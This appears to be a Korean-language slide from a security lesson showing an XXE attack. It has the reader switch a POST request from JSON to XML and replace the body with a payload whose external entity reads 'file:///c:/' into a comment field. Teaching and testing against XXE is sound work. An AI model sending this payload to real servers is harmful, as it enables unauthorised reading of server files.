

# Post 내용을 수정
Content-Type: application/json
Content-Type: application/xml로 변경

 {“text”:””}내용을 다음과 같이 수정
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE comment [
  <!ELEMENT comment (#PCDATA)>
  <!ENTITY js SYSTEM "file:///c:/">
]>
<comment><text>&js;</text></comment>